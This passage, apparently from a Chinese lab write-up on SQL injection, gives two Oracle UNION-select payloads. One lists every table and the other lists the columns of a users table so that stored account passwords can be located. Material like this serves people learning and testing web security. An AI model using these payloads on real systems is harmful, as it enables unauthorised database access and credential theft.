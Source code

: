 ### 2.11.3. **查询所有表**

这里依旧是对其进行查询所有表。

```
payload：' union select table_name,null from all_tables--
```

![图片 39](assets/%E5%9B%BE%E7%89%87%2039.png) 

### 2.11.4. **查询所有字段**

这里只能靠经验判断账户密码保存在什么那个表中了，正常都是users这些。可以去找一找。

```
payload：' union select column_name,null from all_tab_columns where table_name='USERS_YDSHJO'--
```

![img](assets/%E5%9B%BE%E7%89%87%2040.png) 